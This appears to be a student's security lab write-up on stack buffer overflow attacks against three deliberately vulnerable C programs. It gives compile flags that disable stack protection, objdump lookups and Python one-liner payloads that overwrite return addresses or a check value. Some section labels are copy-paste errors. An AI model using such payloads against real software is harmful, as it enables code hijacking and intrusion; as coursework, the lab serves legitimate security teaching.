









 22110042 Doan Minh Khanh
# Lab 1 

**Conduct buffer overflow attack on bof1.c, bof2.c, bof3.c programs.**

First of all, connect to the virtual machine

>

## Bof1.c
Create file bof1.out from bof.c
>gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 

>> -fno-stack-protector: no protection for stack, easier to write overflow

>> -mpreferred-stack-boundary=2: changes how memory is arranged on the stack > the stack alignment to 4 bytes (instead of 16 bytes)

Stack frame
> 
We need to buffer overflow at the 205th byte

Get secretFunc() addr
> objdump -d bof1.out|grep secretFunc

>

Run the command (204 bytes + return address)
>echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out   

We have the sucessful buffer
>

## Bof2.c

Create file bof1.out from bof.c
>gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2 

>> -fno-stack-protector: no protection for stack, easier to write overflow

>> -mpreferred-stack-boundary=2: changes how memory is arranged on the stack > the stack alignment to 4 bytes (instead of 16 bytes)

Stack frame:
>
Buf contains 40 bytes but fgets reads up 44 elements so we depend on the last 4 elements to modify the check =  0xdeadbeef

Run the command (204 bytes + return address)
>echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out   

We have the sucessful buffer
>

## Bof3.c

Create file bof1.out from bof.c
>gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2 

>> -fno-stack-protector: no protection for stack, easier to write overflow

>> -mpreferred-stack-boundary=2: changes how memory is arranged on the stack > the stack alignment to 4 bytes (instead of 16 bytes)

Stack frame:
>
Buf contains 128 bytes but fgets reads up 133 elements so we depend on the last 4 elements to modify into *shell* function address

Get shell addr = 0804845b
> objdump -d bof3.out|grep shell

>

Run the command (204 bytes + return address)
>echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out   

We have the sucessful buffer
>